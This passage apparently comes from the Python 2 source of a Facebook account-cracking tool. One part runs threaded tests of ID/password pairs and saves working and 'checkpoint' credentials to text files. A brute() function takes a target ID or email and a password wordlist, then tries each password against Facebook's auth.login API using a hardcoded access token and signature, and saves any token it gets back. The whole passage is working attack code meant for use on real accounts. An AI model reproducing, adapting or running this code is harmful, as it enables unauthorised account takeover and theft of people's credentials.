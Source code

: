 											                                       oks.append(user+pass9)
                                                                                                                       else:
			                                                                                                       if 'www.facebook.com' in q["error_msg"]:
				                                                                                                   print '\x1b[1;91m[!] \x1b[1;96m[Checkpoint]'
				                                                                                                   print '\x1b[1;92m[!] \x1b[1;97mName \x1b[1;97m    : \x1b[1;97m' + b['name']
				                                                                                                   print '\x1b[1;94m[!] \x1b[1;97mID \x1b[1;97m      : \x1b[1;97m' + user
				                                                                                                   print '\x1b[1;94m[!] \x1b[1;91mPassword \x1b[1;97m: \x1b[1;97m' + pass9 + '\n'
				                                                                                                   cek = open("out/super_cp.txt", "a")
				                                                                                                   cek.write("ID:" +user+ " Pw:" +pass9+"\n")
				                                                                                                   cek.close()
				                                                                                                   cekpoint.append(user+pass9)		
																	                                             
															
		except:																		
			pass
		
	p = ThreadPool(30)
	p.map(main, id) 
	
	print '\033[1;31;40m[✓] Process Has Been Completed\033[1;95m....'
	print "\033[1;32;40m[+] Total OK/\033[1;95mCP \033[1;97m: \033[1;95m"+str(len(oks))+"\033[1;31;40m/\033[1;36;40m"+str(len(cekpoint))
	print '\033[1;34;40m[+] CP File Has Been Saved : save/cp.txt'
	print """
\033[1;31;40m ●════════════════════════◄►════════════════════════●
           """
	raw_input("\n\033[1;95m[\033[1;95mExit\033[1;95m]")
	super()

def brute():
    os.system('clear')
    try:
        toket = open('login.txt', 'r').read()
    except IOError:
        print '\033[1;97m[!] Token not found'
        os.system('rm -rf login.txt')
        time.sleep(0.5)
        login()
    else:
        os.system('clear')
        print logo
        print '\033[1;31;40m ●════════════════════════◄►════════════════════════●'
        try:
            email = raw_input('\033[1;95m[+] \033[1;95mID\033[1;95m/\033[1;95mEmail \033[1;95mTarget \033[1;95m:\033[1;95m ')
            passw = raw_input('\033[1;95m[+] \033[1;95mWordlist \033[1;95mext(list.txt) \033[1;95m: \033[1;95m')
            total = open(passw, 'r')
            total = total.readlines()
            print '\033[1;31;40m ●════════════════════════◄►════════════════════════●'
            print '\033[1;95m[\033[1;95m\xe2\x9c\x93\033[1;95m] \033[1;95mTarget \033[1;95m:\033[1;95m ' + email
            print '\033[1;95m[+] \033[1;95mTotal\033[1;95m ' + str(len(total)) + ' \033[1;97mPassword'
            jalan('\033[1;95m[\xe2\x9c\xba] \033[1;95mPlease wait \033[1;95m...')
            sandi = open(passw, 'r')
            for pw in sandi:
                try:
                    pw = pw.replace('\n', '')
                    sys.stdout.write('\r\033[1;97m[\033[1;97m\xe2\x9c\xb8\033[1;97m] \033[1;97mTry \033[1;97m' + pw)
                    sys.stdout.flush()
                    data = requests.get('https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email=' + email + '&locale=en_US&password=' + pw + '&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6')
                    mpsh = json.loads(data.text)
                    if 'access_token' in mpsh:
                        dapat = open('Brute.txt', 'w')